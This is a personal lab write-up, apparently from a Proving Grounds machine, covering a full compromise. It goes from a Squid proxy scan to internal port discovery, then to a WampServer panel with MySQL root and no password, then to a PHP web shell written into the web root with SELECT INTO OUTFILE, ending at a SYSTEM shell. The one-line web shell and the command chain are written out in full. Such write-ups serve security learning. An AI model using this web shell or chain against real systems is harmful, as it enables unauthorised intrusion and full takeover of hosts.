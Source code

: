 # Main
This is an overview of my methods in rooting a machine from pg. I have purposefully left the names of all pg machines out in titles and replaced them with generic names to avoid any spoiling while still maintaining the opportunity to share my methods, skills, and journey. 

## Initial

### Port scans:
```
PORT     STATE SERVICE    REASON
3128/tcp open  squid-http syn-ack

```
After performing initial service enumeration on the target, it was discovered that only one TCP port was open. Navigating to this led to a page for 'squid proxy.'
Researching squid proxy led me to understand that it can act as a proxy between local services and the web. I found a python script made with the purpose of scanning the system via the proxy and discovered two open ports, one of them being a web server. 
I then used foxyproxy in firefox to create an http proxy with the target ip and squid proxy port and was able to access the internal webserver.
---

### Web - initial:

```
PORT     STATE SERVICE    REASON
3128/tcp open  squid-http syn-ack┌──(kali㉿kali)-[/scripts/spose]
└─$ python spose.py --proxy http://192.168.133.189:3128 --target 192.168.133.189     
Using proxy address http://192.168.133.189:3128
192.168.133.189 3306 seems OPEN 
192.168.133.189 8080 seems OPEN 
```

```
foxyproxy:
192.168.133.189 3128 http

http://192.168.133.189:8080/ --> wampserver
```
After navigating to the site, a configuration page was discovered. On this page, the default configuration for mysql was found to be root with no password.

Find location to create a backdoor -- installation directory found by navigating to 'create virtual hosts':
```
Apache Virtual Hosts C:/wamp/bin/apache/apache2.4.46/conf/extra/httpd-vhosts.conf

VirtualHost already defined:

    ServerName : localhost - Directory : C:/wamp/www


```
Add a new database, then create a table and query:
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\wamp\\www\\backdoor.php"

http://192.168.133.189:8080/backdoor.php?cmd=whoami

nt authority/sytstem

```

Using revshells -- powershell revshell #2, URL -encoded
Other:


```
PS C:\Users\Administrator\Desktop> type proof.txt && whoami && ipconfig
##HASH##
PS C:\Users\Administrator\Desktop> whoami
nt authority\system
PS C:\Users\Administrator\Desktop> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.133.189
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.133.254

```

